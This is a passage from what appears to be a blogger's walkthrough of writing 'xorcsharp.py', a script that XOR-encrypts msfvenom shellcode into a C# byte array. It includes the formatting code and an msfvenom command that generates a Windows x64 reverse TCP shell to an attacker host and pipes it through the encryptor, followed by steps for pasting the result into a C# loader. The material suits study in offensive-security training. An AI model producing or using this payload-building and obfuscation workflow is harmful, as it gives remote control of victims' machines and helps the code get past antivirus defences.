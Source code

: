 ```python
def print_bytedata(d):
    print('    byte[] buf = new byte[] {')
    line = ''
    for i, ch in enumerate(d):
        if i and not i % 16:
            print(f'    {line}')
            line = ''
        line += f'0x{ch:02x},'
    if i % 16:
        print(f'    {line}}};')
```
This will convert the `msfvenom` payload to a format that will mostly be ready for our C# solution. I'm not the best at regex so this part kind of baffled me for a bit before I moved on.

After that, the tool is good to use! We can have it encrypt our shellcode with the following command:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attackerIP LPORT=attackerPort -f raw | python3 xorcsharp.py
```
The `msfvenom` command should look familiar by now. This will generate our shellcode and the "|" or "pipe" symbol will feed that output into our tool. The tool, which I've named "xorcsharp.py," will encrypt the shellcode with the default key: `encryptme`. To change the key, you can add the `-k` flag and supply your own. 

Remember when I said the output would be "mostly" ready? Yeah those were good times. You're going to need to edit the output a bit when you paste it into the C# solution.

First, you're going to need to enter the payload size into the empty brackets:

![XorTop](/assets/images/xorcsharp-tophalf.png)

Next, you need to delete the comma at the last line:

![XorBottom](/assets/images/xorcsharp-bottom.png)

